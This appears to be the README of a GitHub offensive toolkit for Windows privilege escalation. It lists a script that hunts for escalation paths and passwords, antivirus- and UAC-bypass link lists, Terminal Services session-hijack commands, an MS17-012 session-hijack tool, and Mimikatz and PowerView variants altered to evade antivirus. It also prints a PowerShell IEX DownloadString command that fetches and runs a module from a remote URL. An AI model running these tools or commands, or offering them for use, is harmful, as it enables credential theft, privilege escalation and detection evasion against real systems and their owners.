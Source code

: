 # WinEscalation-

Scan.ps1:
Powershell script used to determine what methods can be used to escalate privileges and find passwords (admin and non-admin privs).


AVbypass.txt:
List of URLs discussing different methods of bypassing AV.

TScommands.txt:
Commands on how to hijack a TS session on a box (must have admin rights).

UACbypass.txt:
URLs discussing different methods of bypassing UAC.


MS17-012/CVE-2017-0100:
Start-ProcessInSession.ps1 & MS17-012.cs - non-priveleged session hijack



Author: Scott Sutherland 2013, NetSPI
Version: Get-SPN version 1.1
Requirements: Powershell v.3
Comments: The technique used to query LDAP was based on the "Get-AuditDSDisabledUserAcount" 
function found in Carols Perez's PoshSec-Mod project.#
Modded to bypass AV sig detection.
https://github.com/nullbind/Powershellery/blob/master/Stable-ish/Get-SPN/Get-SPN.psm1

Get-SPM.psm1: 

IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pand0rausa/WinEscalation-/master/Get-SPM.psm1")

Mimikitten mod to avoid AV
mimikitt.ps1


Mimikatz mod to avoid AV
mimi.ps1

Powerview mod to avoid AV
powervw.ps1
